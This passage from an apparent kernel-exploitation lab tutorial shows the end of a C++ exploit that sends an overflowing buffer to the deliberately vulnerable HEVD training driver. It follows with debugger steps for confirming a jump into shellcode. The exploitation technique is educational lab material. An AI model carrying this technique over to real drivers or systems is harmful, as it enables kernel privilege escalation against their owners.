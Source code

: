 ```c++
    printf("[+] lpShellcode: 0x%08X\n", lpShellcode);

    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
    
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        nullptr,
        0,
        &bytesReturned,
        nullptr
    );

    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);

    return 0;
}
```

> Take note that you may have to change the endianness of the pointer to the `shellcode` function. This is done with the bit flip operations used in the code above. 

Let's set a breakpoint just before the return of the TriggerOverflow function and see if we step into our assembly sequence.

![Breakpoint for shellcode](./images/12_place_to_set_bp_for_shellcode.png)

Run the code until you get to the breakpoint, then press `t` once or twice to return out of the function.  Once you do, run `u @eip L9` to `unassemble` the next `9` instructions at the memory address contained in the `eip` register.
